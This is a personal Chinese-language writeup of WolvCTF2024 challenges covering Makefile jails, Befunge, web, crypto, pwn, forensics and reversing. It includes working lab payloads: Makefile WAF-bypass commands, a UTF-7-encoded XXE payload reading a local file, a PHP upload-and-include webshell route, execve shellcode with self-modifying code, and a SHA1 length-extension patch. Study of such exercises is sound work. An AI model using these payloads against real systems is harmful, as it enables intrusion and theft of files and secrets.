


# WolvCTF2024 Personal Writeup
2024/3/16-2024/3/17
Lysithea 6004 26th

密歇根大学办的校赛，两日组队赛。题量非常大（主要因为很多题都拆成很多小问，也变相降低难度），也因此难度范围从 一眼秒了 到 笑死根本看不懂 都有很多，在我分段范围内的也很多，所以打的很充实很开心，也学到了新知识点。


比赛动态分值，除了beginner 都是50分以外，基本都是500分动态变化到100分。总共做出31个题，每题平均200分，所以基本还是简单题为主。回过头一看已做出的题只有一个Web（upload）和Crypto（TagSeries2），还得修行啊。

[TOC]

## Beginner
这个比赛有一个50分专区，大部分题都是送分题，但是有一个Web题内置10个小问几乎把所有HTTP访问基础知识点都考了一遍：HTML注释、header、method、query string、URL encode、x-www-form-urlencoded、js、302跳转、cookie、jwt。很有复习价值。另外还知道了个jwt在线调试网站，[jwt.io](jwt.io)，感觉还挺方便的。

## Misc
除了压轴题没尝试去看，整体难度是偏低的

### Makefile Jail 系列
关于Makefile内命令执行的系列题。不算RCE因为在我看来Makefile本来就和直接给shell差不多。重点在于各种WAF绕过。

题干内容都差不多，我们可以控制下面这个Makefile template的name和content
```Makefile
SHELL := /bin/bash
.PHONY: {name}
{name}: flag.txt
\t{content}
```
之后会把flag.txt和此Makefile拷贝到同目录下运行`make`，并给出stdout/stderr回显。只有WAF不一样。

#### Made Sense
只限制了name只能是alphanumeric，content不含换行符、不能匹配flag。可以用通配符绕过。
```sh
cat *
```
#### Made Functional
第一问基础上，在Makefile中限制了环境变量`PATH:=/bin/bash`，同时content中不允许出现`/`（flag是可以的）。
之前玩过bash jail的经验，有些bash内置命令就算把`/bin`都清空了也是可以用的，比如printf（顺便一提看内置命令的文档是`help printf`而不是`man`），也可以用反引号命令执行（`$()`语法在Makefile环境下会被解释成变量访问，反引号是可以进入shell的）
```bash
`printf "\x2fbin\x2fcat"` flag.txt
```

#### Made Harder
第一问基础上，对content加了白名单，只允许`[\!\@\#\$\%\^\&\*\(\)\[\]\{\}\<\> ]+`这些字符，大概能猜到都是些有功能的敏感字符，只不过不是bash的而是Makefile内置（可以理解为make先预处理一遍再调用bash执行）

查阅GNU make的文档中，[10.5.3 Automatic Variables](https://www.gnu.org/software/make/manual/make.html#index-automatic-variables)一节，找出我们能用的

> `$@`
> The file name of the target of the rule. If the target is an archive member, then `$@` is the name of the archive file. In a pattern rule that has multiple targets (see Introduction to Pattern Rules), `$@` is the name of whichever target caused the rule’s recipe to be run.
>
>
> `$<`
> The name of the first prerequisite. If the target got its recipe from an implicit rule, this will be the first prerequisite added by the implicit rule (see Using Implicit Rules).

所以如此构造就行了，相当于利用target name代入白名单外的字母。
```Makefile
cat: flag.txt
    $@ $<
```

#### Made with love
第二问第三问综合版，有第三问的白名单，同时设置了第二问的`PATH`环境变量。查阅bash manual之后发现一个非常好用的内置功能叫`source`（仔细一想这属实灯下黑了，`source ~/.bashrc`谁还不是天天用呢）。而执行一个shell文件报错时，标准错误流会把错误的文件名（即argv[0]）带出来。所以：
```Makefile
source: flag.txt
    $@ $<
```
顺便一提这个也能秒第二问。

### Befuddled 系列
关于晦涩编程语言（esolang）Befunge的系列题（这还没完，后面逆向还有一个），通俗来说是一种二维的brainfuck，代码是一张二维的图，特点是通过`>v<^`控制程序PC运动方向，然后操作一个栈来进行运算和输入输出。

题目实现了一个befunge解释器，用户输入一段代码，之后先把flag压栈，再执行用户代码。这个系列里限制了输入代码只能是一行的，并且限制长度。因为长度限制很小，所以基本是要自己构造一些gadget，在我能力范围内所以没有查其他资料。

#### Befuddled1
构造下面这个gadget即可
```sh
# ,是弹出元素输出ASCII字符
>,<
```
这个gadget会无限循环把元素弹出来并以ASCII格式输出。到栈底时会自动报错退出。

#### Befuddled2 & 3
限制了`><`这两个元素使用。不过水平控制流也不只有这两个符号，还有一个理解稍微难一点的`_`，其功能是，弹出栈顶元素，如果是0则向左运行，反之向右。因此如下构造
```sh
# 数字都是把当前数字压栈的意思
0_0,,,1_
```
除去第一个0为初始化功能，后面是个互文结构，`1_`等效于`<`，`0_`等效于`>`。但是因为返回的过程会多压入一个数字，所以多一次输出即可。因为输出ASCII字符，而0和1都是不可见字符，所以直接从终端上复制出来的就是flag（当然手动去除也不麻烦）

第三问限制输入为8个字符，刚好我们第二问payload也是8个字符，所以也能做第三问。


## Web
自认为做出两个半。看起来Web是四个题，其实第二天放出来的`Order Up`是个系列（第一问是关于SQL的，苦手），做出第一问之前后面都是隐藏的，所以我也没解锁出来。

### Bean Cafe
第一问网页是个上传界面，从题面要求来看要找到两张内容不同，但是校验一样的文件（HTML注释里暴露了是MD5签名）。

MD5碰撞早就不是什么新闻了（事实上因为MD5是分块算法，很容易构造任意格式文件），随便冲浪找了下就在reddit找到了[两张MD5一样的图片](https://www.reddit.com/r/DataHoarder/comments/gokrmx/these_different_2_images_has_the_same_md5_hash/)。我就直接传上去了，flag是以图片形式传回来的，人眼OCR一下交了

### Upload Fun
PHP上传/包含漏洞。可以提交POST请求上传文件，会放到`./uploads/{hash}_{name}`下，
其中`hash`不可控，但根据生成算法内容是固定的。`name`可控。相关代码：
```php
if (str_contains($_FILES["f"]["name"], "..")) {
    echo "no .. in filename please";
    return;
}

$ip = $_SERVER['REMOTE_ADDR'];
$flag = file_get_contents("./flag.txt");
$hash = hash('sha256', $flag . $ip);

if (move_uploaded_file($_FILES["f"]["tmp_name"], "./uploads/" . $hash . "_" . $_FILES["f"]["name"])) {
    echo "upload success";
} else {
    echo "upload error";
}
```

此外，还提供了一个GET请求接口，会include文件：
```php
$path = "./uploads/" . $_GET["f"];
if (str_contains($path, "..")) {
    echo "no .. in f please";
    return;
}
include $path;
```
另外，无论是上传还是包含文件，服务器都会判断文件名中不能包含`..`，因而无法路径穿越。

所以重点在于如何暴露hash，以获得我们上传的文件名，包含其中的恶意代码。这个点想了蛮久，后来偶然发现报错是有回显的，所以构造4096长度的文件名会把没能成功保存的文件名给出。
```php
<b>Warning</b>:  move_uploaded_file(): Unable to move &quot;/tmp/phpbTHAlS&quot; to &quot;./uploads/331763d5cb0983f537fb0adcade90717750397b3839c7f844c98eca4ee27fa4d_sssssssssssssssssssssssssssssssssssssssssssssssssssssssssss
```

之后就简单了，传入一句话木马，用GET的接口包含，最终运行`base64 /flag.txt`可以获得flag。

### Username (未做出)
一个很简单的注册界面，但只接受3-20字符小写英文字母。之后会定向到`/welcome`，回显注册的用户名，同时在HTML注释里提示源码位于`/app/app.py`（也暗示是python项目）。查看Cookie发现appdata字段是一个jwt。
解码后，header提示是HS256加密，body部分是XML，内容是
```xml
<!-- 假设注册名为abc -->
<data><username>abc</username></data>
```
题干也放出了提示，这个JWT是需要破解的，但不在字典里。不在字典对我反而是利好，因为我就没有字典。所以找了个破解JWT secret的项目：[c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker)，下载编译，几分钟CPU 100% 满速运行后，破解出secret为`mstzt`，这样我们就可以构造任意body了。

接下来对body进行模糊测试（低情商：乱试），很快就能发现一些事情：

- 根节点不重要，只要有一个节点名字是username（但不能是根节点），就会匹配这个节点的内容，但内容会匹配到第一个子节点之前（例如：`<username>ab<a></a>cd</username>`只会匹配`ab`）
- WAF黑名单过滤了`&`, `%`两个实体引用符号，并且和XML解析错误时回显不同。似乎WAF优先于XML解析过程，所以应该是前置判断。

我做到这里，唯一的思路就是绕过WAF，然后去打XXE。一番调研后，决定用UTF-7编码字符集绕过过滤。UTF7可以用类似base64的语法编码一些字符，比如`+ACY-`表示`&`。Python本身的UTF-7编码似乎不会对可编可不编的optional ASCII进行编码，所以我用了一个在线网站：[https://www.novel.tools/encode/UTF-7](https://www.novel.tools/encode/UTF-7)。为何不用UTF-16呢，因为我们的XML是嵌在JWT里发送的，我无法把UTF16字节码解码成UTF8的base64编码，但UTF7毕竟全是ASCII字符不受任何影响。

最终，我能得到一个本地能调通的版本：
```xml
<?xml version="1.0" encoding="utf-7"?>
+ADwAIQ-DOCTYPE a+AFsAPAAh-ENTITY src SYSTEM +ACI-file:///app/app.py+ACIAPgBdAD4-
+ADw-data+AD4APA-username+AD4AJg-src+ADsAPA-/username+AD4APA-/data+AD4-
```
等价于
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY[<!ENTITY src SYSTEM "file:///app/app.py">]>
<data><username>&src;</username></data>
```
在本地我可以用`lxml`正确访问`app.py`这个文件。但是远端只会返回None。我分析了一下，很可能是对方开启了`resolve_entities=False`这个选项，禁止解析任何实体。我会这么判断，除了本地调试行为一致以外，还有一个重要原因是我能确认我的编码绕过是有效的，因为我可以在远端编码出任何HTML实体字符并回显（比如`&#35;`），但只要一涉及到实体，即使不是外部实体（不带SYSTEM）也不行，而且我可以确认不是XML解析错误。

到这一步我其实也无计可施了，XML攻击向量我只知道XXE，这条路径是如此自然（对面甚至针对此做了WAF，结果你告诉这功能对面给关了）。我查阅资料的时候确实看到一些说法，lxml即使关了这个选项也会有些其他BUG，需要打补丁，但这显然超出我的范围。所以这个题我是想看看Writeup的。

## Crypto
Crypto通杀了，不是因为我有多强，是因为这次出的实在太简单了，都没什么Z3/RSA大题，考的基本上都是块加密/分组模式，我相对熟悉一点。

### Limited系列
关于Python随机数的题，但是只考到了种子决定随机数这一层，没涉及到MT19937的S盒。

第一问感觉应该放tutorial里，只是和一个随机数序列异或，并且这个随机数序列的每个种子都知道：
```python
flag = input("Flag? > ").encode('utf-8')
correct = [189, 24, 103, 164, 36, 233, 227, 172, 244, 213, 61, 62, 84, 124, 242, 100, 22, 94, 108, 230, 24, 190, 23, 228, 24]
time_cycle = int(time.time()) % 256
if len(flag) != len(correct):
    print('Nope :(')
    sys.exit(1)
for i in range(len(flag)):
    random.seed(i+time_cycle)
    if correct[i] != flag[i] ^ random.getrandbits(8):
        print('Nope :(')
        sys.exit(1)
print(flag)
```
因为种子只有256种可能性，全部遍历一遍只会有一个是全ASCII字符的flag。

第二问稍微复杂一点，这次不取余数了，但是时间范围给在了2023-12-31这一天。循环之间会`sleep`一个1-60随机数导致种子改变。
```python
flag = input("Flag? > ").encode('utf-8')
correct = [192, 123, 40, 205, 152, 229, 188, 64, 42, 166, 126, 125, 13, 187, 91]
if len(flag) != len(correct):
    print('Nope :(')
    sys.exit(1)
if time.gmtime().tm_year >= 2024 or time.gmtime().tm_year < 2023:
    print('Nope :(')
    sys.exit(1)
if time.gmtime().tm_yday != 365 and time.gmtime().tm_yday != 366:
    print('Nope :(')
    sys.exit(1)    
for i in range(len(flag)):
    # Totally not right now
    time_current = int(time.time())
    random.seed(i+time_current)
    if correct[i] != flag[i] ^ random.getrandbits(8):
        print('Nope :(')
        sys.exit(1)
    time.sleep(random.randint(1, 60))
print(flag)
```

我本来想的是利用前5个字符已知来爆破初始时间字符之间的时间间隔，后来转念一想这个随机`sleep`的时间不也是受前一步种子控制的吗，所以只需要遍历初始时间种子就行了，后面都是伪随机固定序列。

唯一要提的一点是，`time.time()`输出是当前时区的时间戳而非UTC。从文件名可以猜到应该是纽约时区，但是众所周知python的日期/时间/时区处理模块写的依托答辩（🤡），所以不如直接遍历两天的。

### Blocked系列
很有趣的AES题目。题目实现了一个加密解密算法，我们需要做的是密文解密后的信息。

#### Blocked1
nc登录服务器后，我们首先会给一个6位数的随机id，然后我们可以随时对`password reset: guest_{id}`这个字符串加密。加密算法是AES-CBC，会返回整个IV+整个密文。然后我们也可以提交一组密文，解密后如果用户名是`doubledelete`就会打印flag。

因为我们同时能拿到完整的明文和密文。可以使用AES的字节反转攻击，直接构造密文为`guest_{id} ^ doubledelete ^ 上一块的密文`，解密后就是目标字符串。

#### Blocked2
这次算法不再是CBC了，而是基于AES-ECB自己写了一种类似反过来的算法，用当前块明文和上一块的密文异或，返回的是`IV`，`IV密文^明文0`，`密文0^明文1`，等等。

题目会发送一个密文，然后我们可以任意多次地自行构造一段信息获得它的密文，目标是解密题目一开始发出的密文。

容易发现，如果把第一轮的原始密文的前两个块发回去，此时`明文0=上一轮IV`，`明文1=上一轮IV密文 ^ 明文0`，那么这一轮的返回是`IV`, `IV密文 ^ 上一轮IV`, `上一轮IV密文 ^ (上一轮IV密文 ^ 明文0)`，结果第三个块的内容就是`明文0`。因为`明文0`已知，则`上一轮IV密文`也已知，如果把第二个块当IV，我们又获得了一组`新IV`，`新IV密文^明文1`，`密文1^明文2`，结构一样。因而可以用相同的算法递归得到所有明文块

这样讲可能很抽象，如果能画图出来应该会很明确。

### TagSeries系列
这个系列实现了一系列签名算法，我们需要预测一个指定前缀的字符串序列的签名。可以有几次输入机会（每次输入不能重复），得到当前输入的签名。

#### TagSeries1
签名算法为AES-ECB的最后一个块的密文。共3次机会。这个题简直白送的，因为只要前缀不在最后一个块里，前缀内容和签名就没有关系。所以我们用一个非前缀的足够长的串获得签名，再直接把前缀换成指定的即可。

#### TagSeries2
区别在于前缀算法改为了AES-CBC（上一轮密文和明文异或后进入AES-ECB加密流程），并且每次签名之前会在最后补一个大端序的信息字节长度作为块尾，并且给了4次机会。

这个题虽然无法控制最后一个块，但我们可以预知块的内容，因而我们可以在消息末尾追加上一轮的块尾，使得这个块加密的结果和上一轮保持一致，通过这种方式我们可以获得一个长链的CBC加密中多个块的密文。假如我们能获得连续两个块的密文，我们就能获取AES-ECB意义下一组明文和密文，就可以用于字节反转攻击。

总之我的方案是：

前两轮：设以目标MESSAGE为开头的，0x30长度的块为初始块（记为init），分别加密【初始块】和【初始块 | 0x30】，得到签名C0和C1。
```sh
# 这个图的看法是：上一行在AES-ECB加密后结果是下一行第一个括号里的内容
(init) ^ 0x30  
↓
(C0) ^ 0x40
↓
(C1)
```
第三轮，利用字节反转攻击，复制`C1 = f(C0 ^ 0x30)`加密块，得到`C2=f(C1 ^ 0x60)`
```
(init) ^ 0x30  
↓
(C0) ^ 0x40
↓
(C1) ^ (C1 ^ C0 ^ 0x40)
↓
(C1) ^ 0x60
↓
(C2)
```
第四轮，利用已知信息，可以构造出一组C2提前出现，但最终签名和上一轮相同的链，这一轮就可以拿到flag了。
```
(init) ^ 0x30  
↓
(C0) ^ (C0 ^ 0x60 ^ C1)
↓
(C2) ^ (C2 ^ C0 ^ 0x40)
↓
(C1) ^ 0x60
↓
(C2)
```

注意这题有个坑点，签名之前程序会先对输入进行`rstrip`。如果伪造0x20的块尾时，因为0x20刚好是空格会被strip掉然后报长度不合格，所以块需要长一点。

#### TagSeries3
终于不再是AES了换成了SHA1算法，并且只有一次机会。服务器会发回一个`SHA1(secret + MSG)`的签名，我们需要提交一个`NMSG`，其前缀为`MSG`但是包含字符串`flag.txt`，同时需要`SHA1(secret + NMSG)`的签名。

SHA1也是分块算法，只不过是以64字节为块长而非AES的16字节。前面铺垫这么多其实都是为了引出这里的攻击方式：哈希长度扩展攻击。原理其实和上一问差不多，根据已知签名和明文还原出S盒状态，那么我们可以加入新的块并预测签名。

为了实现哈希长度扩展攻击需要两个环节：把消息填充（padding）到块长，研究hash到S盒状态的可逆映射。我对第一个问题做了些调研。对于SHA1算法来说：

- 首先在消息后填充bit1,然后填充若干bit0直到目前总bit数与448关于512同余（即字节数与56关于64同余）。因为是大端序，这个操作相当于先填充一个`\x80`，然后填充若干`\x00`
- 把原始消息长度转为int64，以大端序填充在最后，达成64字节包文

注意这两个padding是必须的，即使原本消息长度刚刚好也需要专门加一个padding块。

至于还原S盒状态部分我没有研究，是因为我找到了`hashpump`库，可以自动做这个攻击。但是这个`hashpump`部分在sha1的padding有BUG，它把长度当成了int32，而恰好我的这个消息长度会重叠到尾块的长度域，所以还要patch一下，笑了

```cpp
index aac3e8f..e041736 100644
--- a/SHA1.cpp
+++ b/SHA1.cpp
@@ -59,6 +59,11 @@ vector<unsigned char> * SHA1ex::GenerateStretchedData(vector<unsigned char> orig
        int tailLength = ret->size() + keylength;
        tailLength *= 8;
        ret->push_back(0x80);
+       // NOTE: taillength is 8 bytes long, so we should add at least 4 padding 0
+       ret->push_back(0x00);
+       ret->push_back(0x00);
+       ret->push_back(0x00);
+       ret->push_back(0x00);
        while((ret->size() + keylength + 4) % 64 != 0)
        {
                ret->push_back(0x00);
```

不知道是不是因为有现成工具可以利用，这个flag做出的人比上一问多了不少。感觉难度上还是这个难一点，特别是padding方面查了很多资料才知道应该是什么样的，以及为何我本地复现不出来（如果我手动补padding的话，sha1算法又会为我的padding补新的padding，当然这是对的不然实现就SHA1 collision了）。

## pwn
3个简单的都是400分以下，2个难的都是500分（好像解出来少于5个人就是500分），还有一个题可能是出错了环境连不上（并且直接给shell了很迷）。

这个比赛逆向、pwn特别喜欢搞手写汇编，搞得反编译器基本都用不了，基本只能动态调试或者符号执行。

### byteoverflow
格式化字符串 + 栈迁移。无保护，栈可执行。

给了两个模块，模块1是`read(0, local_108, 0x101)`读入一个字符串，刚好会溢出一个字节到old rbp中。模块2是`fgets(local_108, 0x100， stdin)`读入一个字符串，然后直接printf，所以有格式化字符串漏洞，但是这个函数只能调用一次（通过一个全局变量控制）。整个程序是main无限循环调用一个opts函数，opts函数通过用户输入选项，用if控制进入两个模块。

本来想的是在printf过程中顺便用`%hhn`修改那个全局变量地址以多次调用，好像确实也行得通（得在fgets时预先埋下几个地址），但我没有用这个方法。我利用printf泄露了栈地址，然后在模块1里埋入shellcode，顺便把rbp低位改为0x00。这样，有很高的概率，模块2返回时rbp会跑到我上一轮输入控制的区域。在opts函数返回时，rsp会被赋值为rbp，那么返回地址就是rbp + 8。为此，我需要在我的shellcode后附加很多个shellcode地址，这样很高概率返回地址会指向shellcode。

### shelleater
手写shellcode题。程序本身也是手写汇编的，好在不长（而且有section注释）。理解为输入一段shellcode，其中不能包含syscall的`\x0f\x05`和int 0x80`\x80`，即禁止系统调用。然后会把代码放在栈上执行。

这题要点在于栈上权限是rwx的，所以可以写Self Modified Code，运行过程中改自己的代码，手动加一个syscall在目标位置即可。

```asm
mov rax, 0x3b
lea rdi, qword ptr [rsp - 0x100]
xor rsi, rsi
xor rdx, rdx

mov byte ptr [rsp + {hex(len(sc) + 1)}], 5
mov qword ptr [rsp - 0x100], {hex(u32(b"/bin"))}
mov qword ptr [rsp - 0xfc], {hex(u32(b"/sh" + p8(0)))}
syscall
# 之后把syscall的最后一个字节改成别的
```
### Deep String
数组越界题。除NX外无保护。

这个题漏洞点刻意得有点逆天。核心是这个函数：
```c
void fn_call(int param_1,long param_2)

{
  long in_FS_OFFSET;
  char local_118 [256];
  undefined local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("Provide your almighty STRING: ");
  fflush(stdout);
  fgets(local_118,0x100,stdin);
  fgets(local_118,0x100,stdin);
  local_18 = 0;
  (**(code **)(param_2 + (long)param_1 * 8))(local_118);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
传入的参数是一个函数指针数组和一个序号，序号可控制并且越界检查没做负数，可以溢出到低地址。函数指针数组实在是太危险了，毕竟越界了那可是实实在在控制rip……这个题字符串输入部分还在这个函数里面，刚好在能溢出到的位置，导致我们可以以我们输入的字符串为单参数调用任何函数……

后面就很简单了，先泄露LIBC地址（可以用printf），然后调用system。注意这个题给的Dockerfile里搞出来的libc偏移量不太对，我也不知道哪里错了，好在在线工具[libc.blukat.me](https://libc.blukat.me/?q=printf%3A5b0%2Cputs%3A980%2Cfgets%3A040&l=libc6_2.36-9%2Bdeb12u4_amd64)给的结果是对的，不然我就得DynELF把整个libc给dump出来了，对这个题真没必要……

## Forensics
这回是有正经的取证题了，第一次学用volatility做内存取证。取证属于那种正大光明的藏的感觉，太藏了也不能说它什么。

### Log Analysis
给了一个很大的Log file，全部是HTTP请求报文。正则匹配一下会发现几万条报文除了`HOST`不一样，其他部分（包括开头的`GET /`）都是一模一样的。所以先把HOST提取出来。

按题干说法有一个链接里有flag，20000多个Host啊……虽然说大部分是垃圾信息。长度分析、频率分析都没看出什么端倪。偶然灵光乍现，意识到请求都是根路径，出题人能控制的域名应该挺有限的啊，于是就注意到了一个跟Web题的URL很类似的Host：
```
wolvsecsolutions-okntin33tq-ul.a.run.app
```
行吧。

### Eternal pwned系列（2/3）

这个系列是对被永恒之蓝漏洞攻击的计算机进行流量、内存取证

#### Infiltration (流量分析)
给了一个pcap流量包。内容太多太杂了一眼看不出来，http几个访问没什么信息，倒是有些SMB流量，但是Wireshark提取工具没有提取出来。

我对这个还是不太敏感，但是嗯看了好久后我还是在SMB流量发现有点不对劲——怎么流量里那么多A啊？



这时我才后知后觉意识到这里有问题，因为著名的永恒之蓝漏洞就是SMB的缓冲区溢出，而（包括我在内）大家写缓冲区溢出都喜欢`b"A" * 0x100`。仔细观察后，发现两条流量中有信息：

1. 图中Echo Request的那条，里面直接就是一个base64原文，解码后就是flag头，这下确定了。
2. 这个包里最后一条SMB流量，就是我目前选中的这条，在纯A中间藏了两端base64，刚好就是flag的中间和结尾部分，拼起来确实是有含义的英文`wctf{l3tS_3teRn4lLy_g0_bLU3_7n9wm4iWnL}`，看来猜得不错确实是永恒之蓝。

#### Persistence (内存分析)
给了一个2GB的内存镜像。查了一下volatility可以处理这样的包，我直接装了volatility3，然后下载了windows插件（永恒之蓝嘛，一看就是Windows设备）

从内存里可以dump出文件列表、进程列表、网络连接列表，这些都看不出什么信息。但是通过cmdline查看正在运行的进程指令时，我立刻发现了有一条鹤立鸡群：
```log
1644	notepad.exe	"C:\Windows\system32\NOTEPAD.EXE" C:\Users\joe\Desktop\schedule.txt
1804	cGFzdGViaW4uY2	"C:\temp\cGFzdGViaW4uY29tL3lBYTFhS2l1.exe" 
896	multireader.ex	"C:\temp\multireader.exe" 
1272	iexplore.exe	"C:\Program Files (x86)\Internet Explorer\iexplore.exe" 
```
temp文件夹，奇怪文件名和进程名，debuff拉满了。文件名一眼base64，解密后是一个pastebin链接，果然是flag。

第三问题为Exfiltration，题干信息是要分析`how did they manage to take my data?`，需要结合流量包和内存分析，怀疑会涉及到对木马的逆向，没折腾明白。

## rev
逆向多数时候是折磨自己，我目前还是这么觉得，所以逆向题超过半个小时如果没有暴力破解以外的思路我就不再尝试了。

### doubledelete's revenge
这个题没什么说法，ghidra反编译后理一下逻辑就好了，就是简单的逐个字节高低位易位。

### Assembled
和中科大Hackergame那个F5题异曲同工，都是搞一堆非标准调用折磨反编译器。没调用外部库，输入输出都用syscall。逻辑简单所以直接angr符号执行，几分钟跑出来。

### Missing Resources
给了一个exe图形程序，但是直接运行跑不出来，提示缺资源。根据提示从github或google分别下载SDL2_ttf.dll, SDL2.dll, Inter-VariableFont.ttf后，程序成功运行，显示flag。

忽然在想，这题对非Windows用户是不是挺不友好的，还得整个Wine或者虚拟机（

### Befudged up
之前befudge编译器的题，不过这次真的给了一个完整的二维程序，并且做成了标准逆向题的样子。

这个题逆向逻辑就纯纯折磨自己了，所以想试试能不能侧信道。我们可以在程序最后加一个print，输出到结束时程序运行了多少步。因为已知前缀是`wctf{`，所以简单试试就会发现，这个题是可以侧信道/时间攻击的，因为如果输入正确就会进入下一轮循环，执行步数会显著增加。如此可以逐位爆破flag。

感觉放rev也不太合适，算法算是crypto但是真放那里提示也太明显了，还是放misc好点